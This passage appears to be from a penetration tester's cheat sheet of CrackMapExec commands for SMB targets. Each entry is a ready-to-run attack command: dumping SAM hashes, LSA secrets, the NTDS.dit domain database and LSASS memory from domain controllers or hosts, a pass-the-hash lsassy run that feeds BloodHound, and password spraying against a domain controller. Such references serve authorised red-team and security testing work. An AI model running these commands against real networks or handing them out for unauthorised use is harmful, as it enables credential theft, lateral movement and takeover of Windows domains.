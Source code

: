 ```bash
cme smb <ip> -u <user> -p <password> -d <domain> --sam
```

## cme - Dump LSA
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump LSA secrets using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
cme smb <ip> -u <user> -p <password> -d <domain> --lsa
```

## cme - dump ntds.dit
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump the NTDS.dit from target DC using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
cme smb <ip> -u <user> -p <password> -d <domain> --ntds
```

## cme - dump lsass
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> -u <user> -p <password> -d <domain> -M lsassy
```

## cme - dump lsass - with bloodhond update
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> --local-auth -u <user> -H <hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## cme - password spray (user=password)
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
cme smb <dc-ip> -u <user.txt> -p <password.txt> --no-bruteforce --continue-on-success
```

## cme - password spray multiple test 
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY #tag/warning

(careful on lockout)

```bash
cme smb <dc-ip> -u <user.txt> -p <password.txt> --continue-on-success
```
